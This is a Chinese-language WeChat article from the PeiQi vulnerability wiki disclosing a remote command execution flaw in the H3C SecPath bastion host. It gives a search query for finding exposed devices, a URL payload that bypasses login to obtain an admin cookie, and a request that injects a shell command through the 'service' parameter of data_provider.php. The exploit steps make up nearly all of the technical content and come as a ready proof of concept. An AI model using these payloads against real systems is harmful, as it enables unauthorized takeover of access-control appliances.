 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rt8lJaLUTVuZd187zrruMw)

![](https://mmbiz.qpic.cn/mmbiz_jpg/ibicicIH182el4ZtwUTIlboZYRXjrRmK33Z3PMgtzbIn6N90u65gaT5swNxWFd56DlRDd7Ixz2MSMzVicHZKHdonpA/640?wx_fmt=jpeg)

**![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7f0qibYGLgIyO0zpTSeV1I6m1WibjS1ggK9xf8lYM44SK40O6uRLTOAtiaM0xYOqZicJ2oDdiaWFianIjQ/640?wx_fmt=png)**

**一****：漏洞描述🐑**

**H3C SecParh 堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令**

**漏洞类似于齐治堡垒机  
**

**二:  漏洞影响🐇**

**H3C SecParh 堡垒机**

**三:  漏洞复现🐋**

```
app="H3C-SecPath-运维审计系统"
```

**登录页面如下**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YkLxBKcXjvA2m2Hqx2I4MYPomV41q8BWLM7jCoBibibqlurHDRtZIVkxvVibxWGH53kJE5iaSkPjTibg/640?wx_fmt=png)

**先通过任意用户登录获取 Cookie**

```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YkLxBKcXjvA2m2Hqx2I4M2iaziauZcVytic23fmMh5ylenIeuP4rEVOeXm6MuF0BCuwwoZEMCL4eSg/640?wx_fmt=png)

```
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YkLxBKcXjvA2m2Hqx2I4MHzBlIhGf8iaRVL6BW230n4mlwWjDicDn8wNZ5eNVwHg9KuZNpbbhXlRQ/640?wx_fmt=png)

 ****四:  关于文库🦉****

 **在线文库：**

**http://wiki.peiqi.tech**

 **Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4cpD8uQPH24EjA7YPtyZEP33zgJyPgfbMpTJGFD7wyuvYbicc1ia7JT4O3r3E99JBicWJIvcL8U385Q/640?wx_fmt=png)

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuHPQeSEAhRof2olkAM9ZghicpNv0p8rRbtNCZJL4t82g15Va8iahlCWeg/640?wx_fmt=png)

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。**

**PeiQi 文库 拥有对此文章的修改和解释权如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经作者允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。**